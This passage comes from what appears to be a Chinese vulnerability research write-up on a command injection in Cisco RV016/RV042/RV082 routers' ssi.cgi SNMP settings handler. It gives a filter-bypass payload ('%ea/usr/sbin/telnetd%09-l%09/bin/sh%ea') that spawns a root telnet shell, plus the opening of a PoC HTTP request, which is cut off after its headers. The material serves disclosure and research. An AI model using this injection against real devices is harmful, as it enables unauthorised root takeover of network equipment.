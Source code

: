   
**攻击演示**  
  
  
发送上述**Poc**报文：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/RbvWEoCT2fRoAyv3ar6ibNXek6tTk9tMBHStbYUzZibgejTW92xa1iaj8LPzpsseRsBbEm1Edk5ibiahOboXJ3ETlZA/640?wx_fmt=other&from=appmsg "")  
  
  
攻击后，可远程登录设备并获得**root**权限：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/RbvWEoCT2fRoAyv3ar6ibNXek6tTk9tMBYwVVWUADp0Xxbxmbmp6BzvOd0B6R1nf6WXkp9Nr84PHEgA1XsuCCjA/640?wx_fmt=other&from=appmsg "")  
  
  
  
**某内部已知漏洞**  
  
  
**漏洞描述**  
  
  
**Cisco RV0xx**系列的设备和**Cisco RV32x**系列的设备固件部分结构相似，于是我也看了下，不过这个漏洞在上报之后得到了厂商的回复：这是一个内部已知的漏洞。个人感觉这个漏洞的绕过相对前几个还复杂些，没想到反而撞洞了2333  
  
  
  
  
**Cisco RV016, RV042, RV042G, RV082**系列企业级路由器最新固件中存在一个**命令注入**漏洞。通过身份验证的攻击者可通过该漏洞执行任意命令，获取设备的最高控制权。  
  
  
**漏洞细节**  
  
  
二进制文件****/usr/local/EasyAccess/www/cgi-bin/ssi.cgi****中存在漏洞。  
  
在**NK_SNMPUpdate**函数中，**POST**报文中的**snmp_Mib2SysName**字段内容存放在**acStack1622**变量中。当**acStack1622**变量中不包含特定的危险字符，则将会被拼接入**acStack1110**字符串中，并用**system**函数执行命令。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/RbvWEoCT2fRoAyv3ar6ibNXek6tTk9tMBMwUMk1sA2GrLUKNu2lNMEByDrvNnmibrefgLFghlrwic8HOtz6aNsl3g/640?wx_fmt=other&from=appmsg "")  
  
  
  
然而，危险字符**\n**和**\r**在此处并未被过滤。但是在实际测试中，可以发现这个系列的设备会将某些字符进行转义，如代表**\n**的**%0a**将会被转为**%2a**, 即*****符号。根据这个转义规则，容易得到****%ea**将会被转义为我们需要的**\n****；类似地，空格符**%20**也会被转义为其他字符。幸运的是，Tab符**%09**可以替代空格符，并且**%09**在这里不会被转义。因此，我们可以注入形如 ****%ea/usr/sbin/telnetd%09-l%09/bin/sh%ea****的命令绕过这个转义操作。  
  
  
同理，**snmp_Mib2SysContact**  
  
和**snmp_Mib2SysLocation**字段中也可注入命令触发同样的漏洞。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/RbvWEoCT2fRoAyv3ar6ibNXek6tTk9tMBicqGXfFeMbLM8AXRntkyiaZh2Z3l6P4CzalMYgHZt8RsQYNxhfeDyTGw/640?wx_fmt=other&from=appmsg "")  
  
  
  
**Poc**  
  
  
发送如下报文，  
  
**snmp_Mib2SysName**， **snmp_Mib2SysContact** 和**snmp_Mib2SysLocation**字段中注入恶意命令。  
  
```
POST /sys_snmp.htm HTTP/1.1
Host: 192.168.1.1
Cookie: mlap=FqgbQ5aBA5wTvwGiB8wRcQ==
Content-Length: 249
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="110", "Not A(Brand";v="24", "Google Chrome";v="110"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://192.168.1.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
```